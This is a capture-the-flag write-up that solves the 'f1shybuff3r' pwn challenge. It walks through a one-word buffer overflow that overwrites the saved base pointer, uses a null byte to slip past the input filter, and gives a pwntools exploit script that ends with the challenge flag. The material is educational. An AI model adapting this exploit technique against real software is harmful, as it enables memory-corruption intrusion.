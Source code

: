 # pwn/f1shybuff3r

> Learned about this programming language called deadfish but it can't do anything interesting.  You can't even call a function in deadfish!  Therefore, I'm super confident my flag will remain safe & secure.

Provided: [`deadfish`](deadfish)

## Solution

As always, it's good to check out some information about the binary we're provided, as well as what it does :)

```shell
$ file deadfish
deadfish: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=01a168b34c5040e447fd2b7e2fd91b5c903f623d, with debug_info, not stripped

$ pwn checksec deadfish
[*] '/path/to/deadfish'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

$ ./deadfish
DEADFISH INTERPRETER, READING YOUR PROGRAM IN AT 0x7fff21716740:
AAAAAAAAAAAAAAAAAAAAAA # I typed this
ERROR: UNKNOWN INSTRUCTION DETECTED 'A' at position 0 of 23
```

It looks like we're given an address which is probably related to the stack somehow?
The binary's also unstripped, so let's open it up in Ghidra to verify:

```c
void read_program(void)
{
  long lVar1;
  undefined8 *puVar2;
  char code [256];

  puVar2 = (undefined8 *)code;
  for (lVar1 = 0x20; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  printf("DEADFISH INTERPRETER, READING YOUR PROGRAM IN AT %p:\n",code);
  fgets(code,0x108,stdin);
  verify_program(code);
  execute(code);
  return;
}
```

I know this isn't `main` but basically all the real `main` does is call this function so you're not missing out on much :)
So it looks like a 256 byte char array is allocated and 0x108...that's 264 bytes that are read into it, so we can write 8 bytes past the end of the buffer.
Because of how the stack is laid out, that means that we can overwrite the base pointer pushed onto the stack at the beginning of this function, but not its return address.
To see how this is still useful, you need to know a bit about how function calls work at the assembly level.

### Assembly time

In assembly, functions are called via the `call` instruction, which essentially does two things: push a return address (i.e. the address of the next instruction) onto the stack and jump to wherever the function is located to execute its code.

After being called, basically every function starts with the same three instructions:

```
push rbp
mov rbp, rsp
sub rsp, <number>
```

This pushes the previous base pointer onto the stack, copies the previous stack stack pointer into the base pointer register, and decrements the stack pointer by some amount to make room for local function variables.

Similarly, every (?) function ends with the same couple of instructions as well:

```
leave
ret
```

These are essentially equivalent to `mov rsp, rbp ; pop rbp` and `pop rip`, respectively.
`leave` puts the stack pointer back in the right location for the previous function and restores is base pointer as well, and `ret` jumps back to the return address pushed onto the stack by `call` (or wherever it happens to be pointing if it was overwritten :)).

So how does overwriting the base pointer address help us?
Well, doing so allows us to control where the stack pointer is located after `read_program` returns control back to main.
If we overwrite the base pointer with the address of our buffer that we're so conveniently given, we can then effectively control main's stack and therefore return address since we have full control over the buffer's contents.
We can't just put it at the beginning of the buffer, though, since there will be two `leave ; ret` instruction pairs that we'll have to deal with.
If we fill the first 8 bytes of our buffer with garbage, that will end up being popped into rbp at the end of `main`, leaving the next 8 bytes at the top of the stack.
The address pointed to by those 8 bytes will then by jumped to because of the `ret` instruction, so that's where we'd want to put the address to the `win` function.

With all of that in mind, though, we do have to get around the call to `verify_program`, since it didn't seem to like us just spamming `A`s.
Let's check it out in Ghidra as well:

```c
void verify_program(char *prog)
{
  char cVar1;
  size_t sVar2;
  int length;
  int i;

  sVar2 = strlen(prog);
  i = 0;
  do {
    if ((int)sVar2 <= i) {
      return;
    }
    cVar1 = prog[i];
    if (cVar1 != 'i') {
      if (cVar1 < 'j') {
        if ((cVar1 != '\n') && (cVar1 != 'd')) {
LAB_00400831:
          printf("ERROR: UNKNOWN INSTRUCTION DETECTED \'%c\' at position %d of %d",
                 (ulong)(uint)(int)prog[i],(ulong)(uint)i,sVar2 & 0xffffffff);
                    /* WARNING: Subroutine does not return */
          exit(1);
        }
      }
      else if ((cVar1 != 'o') && (cVar1 != 's')) goto LAB_00400831;
    }
    i = i + 1;
  } while( true );
}
```

The decompilation seems to be a bit wacky but based on that the valid characters appear to be `i`, `d`, `s`, and `o`.

There's also a call to `strlen` which looks interesting.
From its [man page](https://www.man7.org/linux/man-pages/man3/strlen.3.html):

> The **strlen**() function calculates the length of the string pointed to by `s`, excluding the terminating null byte ('\0').

So if we include a null byte in those first 8 bytes of our buffer, the only stuff that will be checked is anything before that null byte, so we can then fill the rest of the buffer with whatever we please.

With that in hand, we have all the information we need to craft our payload!
Here's a quick Python script that does the job :)

```python
from pwn import *

if __name__ == "__main__":
    context.log_level = "error"
    # io = process("./deadfish")
    io = remote("chall.ctf-league.osusec.org", 1385)

    # get win function address
    binary = ELF("deadfish")
    win_addr = binary.symbols["win"]

    # parse buffer address from provided prompt
    addr_line = io.readlineS(False)
    buffer_addr = int(addr_line.split()[-1][:-1], 16)

    payload = b"i"*7 + b"\0" # valid deadfish code terminated with null byte
    payload += p64(win_addr) # win function address
    payload += b"i"*240 # garbage to fill the buffer
    payload += p64(buffer_addr) # overwrite base pointer with buffer address

    print(f"Payload: {payload}")

    io.sendline(payload)
    print(io.recvuntil(b"}").decode())
```

When you run that you should get something similar to the following:

```shell
$ python pwn_fish.py
Payload: b'iiiiiii\x00W\x07@\x00\x00\x00\x00\x00iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii\xf0e\x8ar\xff\x7f\x00\x00'
osu{wh0_says_d3adf1sh_ha5_n0_c0ntr0l_fl0w?}
```

And there's our flag!
For a [really limited programming language](https://esolangs.org/wiki/Deadfish) we sure were able to do a lot with it, eh? :)